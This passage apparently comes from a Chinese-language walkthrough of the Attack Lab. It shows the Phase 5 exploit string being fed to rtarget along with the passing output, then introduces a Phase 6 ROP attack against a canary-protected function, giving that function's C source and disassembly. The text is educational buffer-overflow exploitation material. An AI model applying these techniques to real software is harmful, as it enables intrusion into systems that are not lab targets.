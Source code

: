 转换为原始字节序列并传递给 `rtarget` 程序：

```bash
cat phase5.txt | ./hex2raw | ./rtarget
```

```text
Cookie: 0x24c8ce66
Type string:Touch3!: You called touch3("24c8ce66")
Valid solution for level 3 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

# Phase 6

在 phase 6 中，我们需要针对 `starget` 程序实现 ROP 攻击。但是有了栈溢出检测的保护，简单的栈溢出无法实现返回导向编程（ROP）攻击，并且 `starget` 中的 `getbuf_withcanary` 函数也不再像 `getbuf` 那样存在漏洞。

```c
unsigned getbuf_withcanary()
{
    int len;
    char buf[128];
    char logMsg[128];
    len = 0;
    Gets(buf);
    memcpy(logMsg + len, buf, sizeof(buf));
    return 1;
}
```

```x86asm
0000000000401df6 <getbuf_withcanary>:
  401df6:	55                   	push   %rbp
  401df7:	48 89 e5             	mov    %rsp,%rbp
  401dfa:	48 81 ec 20 01 00 00 	sub    $0x120,%rsp
  401e01:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
  401e08:	00 00
  401e0a:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
  401e0e:	31 c0                	xor    %eax,%eax
  401e10:	c7 45 e4 00 00 00 00 	movl   $0x0,-0x1c(%rbp)
  401e17:	48 8d 85 60 ff ff ff 	lea    -0xa0(%rbp),%rax
  401e1e:	48 89 c7             	mov    %rax,%rdi
  401e21:	e8 c3 02 00 00       	call   4020e9 <Gets>
  401e26:	8b 45 e4             	mov    -0x1c(%rbp),%eax
  401e29:	48 98                	cltq
  401e2b:	48 8d 95 e0 fe ff ff 	lea    -0x120(%rbp),%rdx
  401e32:	48 8d 0c 02          	lea    (%rdx,%rax,1),%rcx
  401e36:	48 8d 85 60 ff ff ff 	lea    -0xa0(%rbp),%rax
  401e3d:	ba 80 00 00 00       	mov    $0x80,%edx
  401e42:	48 89 c6             	mov    %rax,%rsi
  401e45:	48 89 cf             	mov    %rcx,%rdi
  401e48:	e8 f3 f2 ff ff       	call   401140 <memcpy@plt>
  401e4d:	b8 01 00 00 00       	mov    $0x1,%eax
  401e52:	48 8b 75 f8          	mov    -0x8(%rbp),%rsi
  401e56:	64 48 33 34 25 28 00 	xor    %fs:0x28,%rsi
  401e5d:	00 00
  401e5f:	74 05                	je     401e66 <getbuf_withcanary+0x70>
  401e61:	e8 72 07 00 00       	call   4025d8 <__stack_chk_fail>
  401e66:	c9                   	leave
  401e67:	c3                   	ret
```
